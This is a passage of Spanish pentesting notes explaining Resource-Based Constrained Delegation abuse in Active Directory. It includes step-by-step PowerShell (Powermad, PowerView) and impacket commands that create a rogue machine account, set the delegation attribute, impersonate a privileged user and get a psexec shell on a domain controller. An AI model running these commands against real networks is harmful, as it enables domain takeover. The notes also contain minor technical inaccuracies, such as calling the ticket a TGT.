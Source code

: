 El **Resource-based Constraint Delegation** establece en el objeto quién puede suplantar a cualquier usuario en su contra.

En este caso, el objeto restringido tendrá un atributo llamado *msDS-AllowedToActOnBehalfOfOtherIdentity* con el nombre del usuario que puede suplantar a cualquier otro usuario en su contra.

Otra diferencia importante de esta Delegación restringida a las otras delegaciones es que cualquier usuario con permisos de escritura sobre una cuenta de máquina (*GenericAll/GenericWrite/WriteDacl/WriteProperty/etc*) puede configurar el *msDS-AllowedToActOnBehalfOfOtherIdentity* (En las otras formas de Delegación necesitaba administrador de dominio privs).

- El atacante compromete una cuenta que tiene un SPN o crea uno ("Servicio A"). Tenga en cuenta que cualquier usuario administrador sin ningún otro privilegio especial puede crear hasta 10 objetos de equipo (MachineAccountQuota) y establecerles un SPN. Entonces, el atacante puede simplemente crear un objeto de computadora y establecer un SPN.
- El atacante abusa de su privilegio de ESCRITURA sobre la computadora víctima (ServiceB) para configurar la delegación restringida basada en recursos para permitir que ServiceA suplante a cualquier usuario contra esa computadora víctima (ServiceB).
- El atacante usa Rubeus (U otras maneras de explotar y realizar el ataque) para realizar un ataque S4U completo (S4U2Self y S4U2Proxy) del Servicio A al Servicio B para un usuario con acceso privilegiado al Servicio B.
	- S4U2Self (de la cuenta SPN comprometida/creada): Solicite un TGS de administrador para mí (no reenviable).
	- S4U2Proxy: use el TGS no reenviable del paso anterior para solicitar un TGS del administrador al host de la víctima.
	- Incluso si está utilizando un TGS no reenviable, ya que está explotando la delegación restringida basada en recursos, funcionará.
- El atacante puede pasar el ticket y hacerse pasar por el usuario para obtener acceso al ServiceB de la víctima.

###### Explotación
Así como se puede explotar con Rubeus, existen otras maneras, desde el script rbcd.py encontrado en github https://github.com/tothi/rbcd-attack, así como tambien usando las herramientas de impacket:

 Lo primero que deberiamos hacer es crear el Computer Objetc, para esto usaremos powermad (Se recomienda tambien usar powerview)
-  **Powermad**: (wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1) 
-  **Powerview**: (wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1)

Ambos deberian transferirise a la maquina victima windows que tenemos pwneada, una vez en ella:

```powershell 
Import-Module .\Powermad.ps1
Import-Module .\PowerView.ps1
New-MachineAccount -MachineAccount {evilPC_name} -Password $(ConvertTo-SecureString '{evilPC_passwd}' -AsPlainText -Force) -Verbose
```

Una vez creada la maquina, podriamos (haciendo uso de powerview) ver si esta se creo correctamente: 

```powershell
Get-DomainComputer {evilPC_name}
```

Luego, haciendo uso de powerview declaramos algunas variables para realizar el ataque: 

```powershell
$targetComputer = {taget_Computer}

$ComputerSid = Get-DomainComputer {evilPC_name} -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"

$SDBytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# Adicionalmente, una vez más, haciendo uso de powerview podriamos corroborar que todo haya salido ok, ejecutando: 

Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

# Lo que deberia arrojar: 
# msds-allowedtoactonbehalfofotheridentity

# ----------------------------------------

# {1, 0, 4, 128...}
```

 De esta manera habriamos realizado todo, solo quedaria solicitar un TGT a #KERBEROS para suplantar la identidad del usuario que deseemos. En nuestra maquina atacante con linux: 

```shell
impacket-getST -spn cifs/{dc} -impersonate {user_to_supplant} -dc-ip {dc_ip} {dc}/{evilPC_name}$:{evilPC_password}
```

De esta manera habriamos solicitado y conseguido el TGT para el usuario que desearamos, por lo que simplemente quedaria exportart la variable global KRB5CCNAME, y utilizar psexec para autenticarnos como el usuario suplantado: 

```shell
export KRB5CCNAME=$(pwd)/{user_to_supplant}.ccahe

impacket-psexec -k {dc}
```



